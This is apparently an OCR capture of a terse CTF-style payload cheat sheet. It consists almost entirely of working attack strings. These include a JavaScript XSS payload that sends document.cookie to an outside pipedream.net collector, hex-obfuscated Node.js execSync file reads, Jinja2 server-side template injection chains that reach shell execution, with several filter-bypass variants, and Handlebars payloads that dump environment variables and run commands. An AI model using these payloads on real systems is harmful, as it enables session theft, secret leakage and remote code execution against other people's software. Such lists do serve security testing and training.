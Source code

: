 ```javascript
x.open("GET", "https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/f=" + document.cookie, true);
x.send();
```

```javascript
require(`fs`).readdirSync(`./`)
```

```javascript
require(`child_process`).execSync(`\x63at\x20<FILE>`).toString()
```

```javascript
require(`child_process`).execSync(`\x63at\x20T\x2a`).toString()
```

---
##  Server Side Template Injection

```python
{{7*7}}
{{config}}
{{config.items()}}
{{ [].class.base.subclasses() }}
{{''.class.mro()[1].subclasses()}}
{{ ''.__class__.__mro__[2].__subclasses__() }}
{{''.__class__.mro()[1].__subclasses__()[396]('cat flag.txt',shell=True,stdout=-1).communicate()[0].strip()}}
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
```python
{{request|attr(request.args.param)}}&param=__class__
{{request[request.args.param]}}&param=__class__
{{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}
{{request|attr(["_"*2,"class","_"*2]|join)}}
{{request|attr(["__","class","__"]|join)}}
{{request|attr("__class__")}}
{{request.__class__}}
{{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}
{{()|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f��)|attr(��\x5f\x5fsubclasses\x5f\x5f')()|attr('\x5f\x5fgetitem\x5f\x5f')(287)('ls',shell=True,stdout=-1)|attr('communicate')()|attr('\x5f\x5fgetitem\x5f\x5f')(0)|attr('decode')('utf-8')}}
```
```javascript
Handlebars Template

{{JSON.stringify(process.env)}}
{{JSON.stringify(process.mainModule.constructor._load("child_process").exec("ls"))}}
```

---